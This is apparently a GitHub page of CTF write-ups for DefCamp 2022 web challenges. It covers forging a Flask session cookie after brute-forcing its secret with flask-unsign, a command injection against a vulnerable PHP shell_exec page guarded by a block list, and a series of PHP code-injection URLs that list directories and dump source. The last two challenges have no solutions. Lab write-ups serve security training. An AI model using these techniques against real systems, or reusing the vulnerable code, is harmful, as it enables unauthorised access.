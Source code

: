 Defcamp-ctf22-writeups
writeups of web challenges

1. Webintro
link: 34.159.129.6:30873 Description: Are you an admin?

Note: Access Denied is part of the challenge.

Flag format: CTF{sha256}

Solution:
The website contain a cookie named session whose value is eyJsb2dnZWRfaW4iOmZhbHNlfQ.YgdEAA.3it3aK6Fidz3t4cetERsGDoO7HA

When we base64_decoded it, we got a value like this: {"logged_in":false}� t@�+wh�Dl�:�p

But we can see that the cookie is signed, so we have to unsign it and put that token value in the cookie to get the flag

Server: Werkzeug/2.0.3 Python/3.6.9, So we need to try flask-unsign.

 {'logged_in': False}
To obtain the secret key, we used the following command flask-unsign --unsign --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.YgdEAA.3it3aK6Fidz3t4cetERsGDoO7HA' --wordlist /home/avanthika/Downloads/rockyou.txt --no-literal-eval [*] Session decodes to: {'logged_in': False} [*] Starting brute-forcer with 8 threads.. [+] Found secret key after 128 attempts b'password'

So, we obtained the secret key as password. Now we need to make our own custom session data, for that we can use --sign

eyJsb2dnZWRfaW4iOnRydWV9.YgdMSA.8IA2CQFMGIDO3XcACg3TtJ4WlM8```
Paste the above token in the session cookie to get the flag.

Flag: CTF{66bf8ba5c3ee2bd230f5cc2de57c1f09f471de8833eae3ff7566da21eb141eb7}

Reference:
https://pypi.org/project/flask-unsign/
https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce

2. Paracode
link: 34.159.7.96:30039
Description: I do not think that this API needs any sort of security testing as it only executes and retrieves the output of ID and PS commands.

Flag format: CTF{sha256}

Solution:
Opening the link gives the following php code
<?php
require __DIR__ . '/flag.php';
if (!isset($_GET['start'])){
    show_source(__FILE__);
    exit;
} 

$blackList = array(
  'ss','sc','aa','od','pr','pw','pf','ps','pa','pd','pp','po','pc','pz','pq','pt','pu','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','ls','dd','nl','nk','df','wc', 'du'
);

$valid = true;
foreach($blackList as $blackItem)
{
    if(strpos($_GET['start'], $blackItem) !== false)
    {
         $valid = false;
         break;
    }
}

if(!$valid)
{
  show_source(__FILE__);
  exit;
}

// This will return output only for id and ps. 
if (strlen($_GET['start']) < 5){
  echo shell_exec($_GET['start']);
} else {
  echo "Please enter a valid command";
}

if (False) {
  echo $flag;
}

?>
In this challenge, we can see that the we should find an appropriate 2 letter command to get the flag(given the length should be less than 5)
So, bruteforcing with all the 2 letter command, we found that m4 * command gives the flag.
So, the url becomes http://34.159.7.96:30039/?start=m4%20*
Checking the source page of the site, gives the flag.
$flag = "791b21ee6421993a8e25564227a816ee52e48edb437909cba7e1e80c0579b6be";
Reference:
https://www.davekb.com/browse_computer_tips:linux_two_letter_commands:txt

3. Casual Defence:
link: 35.246.158.241:30568
Description:In light of recent events related to the cyber attack, we have prepared a mirror environment of the defaced website so you can have a look. Moreover, both the mirror and production environments retain a copy of the defacement file and up-to-date security policies that prevent any access to our systems.

Flag format: CTF{sha256}

Solution:
We use the cmd to implement commands in the url. Payloads:
http://35.246.158.241:30568/?cmd=print_r(chr(46));
http://35.246.158.241:30568/?cmd=print_r(scandir(chr(46)));
http://35.246.158.241:30568/?cmd=print_r(current(scandir(chr(46))));
http://35.246.158.241:30568/?cmd=print_r(next(scandir(chr(46))));
http://35.242.219.87:31217/?cmd=print_r(end(scandir(chr(46))));
http://35.246.158.241:30568/?cmd=print_r(array_reverse(scandir(chr(46))));
http://35.246.158.241:30568/?cmd=print_r(next(array_reverse(scandir(chr(46)))));
http://35.246.158.241:30568/?cmd=show_source(next(array_reverse(scandir(chr(46)))));
From the last payload we get the flag, Flag: CTF{40c7bf1cd2186ce4f14720c4243f1e276a8abe49004b788921828f13a026c5f1}

Reference:
Scandir() in php: https://www.w3schools.com/php/func_directory_scandir.asp
PHP Array Functions: https://www.w3schools.com/php/php_ref_array.asp

4. It-support
link:34.89.146.147:30233
Description: Dear , after receiving your penetration testing report and after researching the 4.2.3 vulnerability we would like to consider it as not applicable due to the fact that no data can be exfiltrated from the open ticket platform (regardless of the authentification state) due to fact that the platform is hosted on the internal network with no external access.

Flag format: CTF{sha256}

Solution:
5. Research it
link:35.242.212.223:30240
Description: Recently I hired a team to keep my WordPress updated and secure. It got hacked, the team does not respond, the website seems permanently down and here it is the backup. Tell me more.

Flag format: CTF{sha256}

Solution:
About
writeups of web challenges


